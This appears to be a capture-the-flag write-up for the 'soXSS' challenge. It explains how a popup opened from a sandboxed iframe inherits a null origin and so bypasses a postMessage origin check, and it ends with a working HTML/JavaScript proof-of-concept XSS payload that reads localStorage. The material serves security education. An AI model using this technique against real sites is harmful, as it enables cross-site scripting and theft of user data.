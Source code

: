 # soXSS - writeup

## Introduction

The [challenge](https://twitter.com/terjanq/status/1446500485142355972) consisted of two components:
1. Text input for HTML notes.
2. Rendered HTML page from textarea, rendered inside an iframe.

The embedded iframe was within the same origin, but data sent to it was sanitized by [DOMPurify](https://github.com/cure53/DOMPurify).

## The idea

The idea for the challenge was rather simple:
1. Bypass the below snippet included inside iframe.
```js
const identifier = '4a600cd2d4f9aa1cfb5aa786';
onmessage = e => {
  const data = e.data;
  if (e.origin !== window.origin && data.identifier !== identifier) return;
  if (data.type === 'render') {
    renderContainer.innerHTML = data.body;
  }
}
```
2. Steal the identifier.
3. Steal the saved note from the main page with a correct idenntifier.

*💡 The name of the challenge - soXSS - was referring to Same-Origin XSS.*

## The solution

One could [notice](https://so-xss.terjanq.me/index.php?source) that the identifier was stored in a user's session and the session cookie was set to Lax. To solve the challenge the intended way was to bypass the following check `e.origin !== window.origin`. When `//example.org` is embeded into a sandboxed iframe, then the page's origin will be `null`, i.e. `window.origin === 'null'`. So just by embedding the iframe via `<iframe sandbox="allow-scripts" src="https://so-xss.terjanq.me/iframe.php">` we could force the `null` origin, only if the page was embeddable and cookies set to `SameSite=None`, but it wasn't the case for the challenge. The lesser known fact is that when the sandbox value `allow-popups` is set then the opened popup will inherit all the sandboxed attributes unless `allow-popups-to-escape-sandbox` is set. And that is the solution to the challenge: 
1. From a sandboxed page open a popup to `https://so-xss.terjanq.me/iframe.php`.
2. From any other `null` origin send a simple XSS to the popup and steal the identifier.
3. Open `https://so-xss.terjanq.me/iframe.php` and send XSS with stolen identifier so the origin is `so-xss.terjanq.me`.

All the steps are included in the below simple [PoC](https://so-xss-hof.terjanq.me/poc.html):

```html

<body>
  <script>
    f = document.createElement('iframe');
    f.sandbox = 'allow-scripts allow-popups allow-top-navigation';
    const payload = `x=opener.top;opener.postMessage(1,'*');setTimeout(()=>{
      x.postMessage({type:'render',identifier,body:'<img/src/onerror=alert(localStorage.html)>'},'*');
    },1000);`.replaceAll('\n',' ');
    f.srcdoc = `
    <h1>Click me!</h1>
    <script>
      onclick = e => {
        let w = open('https://so-xss.terjanq.me/iframe.php');
        onmessage = e => top.location = 'https://so-xss.terjanq.me/iframe.php';
        setTimeout(_ => {
          w.postMessage({type: "render", body: "<audio/src/onerror=\\"${payload}\\">"}, '*')
        }, 1000);
      };
    <\/script>
    `
    document.body.appendChild(f);
  </script>
</body>
```

## Credits
The challenge was created by [NDevTK](https://twitter.com/ndevtk) and [terjanq](https://twitter.com/terjanq).
